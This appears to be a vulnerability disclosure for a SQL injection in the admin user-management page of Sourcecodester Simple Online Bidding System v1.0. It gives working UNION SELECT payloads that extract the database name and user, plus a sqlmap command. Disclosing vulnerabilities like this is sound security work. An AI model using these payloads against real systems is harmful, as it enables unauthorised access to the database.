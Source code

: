 SQL injection vulnerability exists in Sourcecodester Simple Online Bidding System

official website:https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

version:v1.0

route：/simple-online-bidding-system/admin/index.php?page=manage_user&id=1

injection parameter:$_Get['id']

#### 1.Vulnerability analysis

The parameter $_Get['id'] here is directly spliced into the sql statement after removing the null value. There is a sql injection point.

![image-20240515151923449](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Online%20Bidding%20System%20Sql%20Inject-3.assets/image-20240515151923449.png)

#### 2.Vulnerability verification and exploit

We can exploit vulnerabilities using methods such as federated query injection. The database name and any information about the database can be obtained through this injection point.

First, you can test that the number of queries is 9, and further test the echo positions of the 9 query results, as shown in the figure below.

```
page=manage_user&id=-2+union+select+1,2,3,4,5,6,7,8,9%23
```

![image-20240515152128385](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Online%20Bidding%20System%20Sql%20Inject-3.assets/image-20240515152128385.png)

Then you can select 2 and 3 as the echo positions, modify the payload to query the database name and current database user name.

```
page=manage_user&id=-2+union+select+1,database(),user(),4,5,6,7,8,9%23
```

![image-20240515152214240](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester Simple Online Bidding System Sql Inject-3.assets/image-20240515152214240.png)

We can also use sqlmap to conduct injection point testing. The test results are shown in the figure below. There are also SQL injection vulnerabilities that can be exploited.

```
python sqlmap.py -u "http://x.x.x.x/admin/index.php?page=manage_user&id=1" --cookie="PHPSESSID=xxxxxxxxxxxxxxxxxxxxx" --batch
```

![image-20240515161603191](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Online%20Bidding%20System%20Sql%20Inject-3.assets/image-20240515161603191.png)
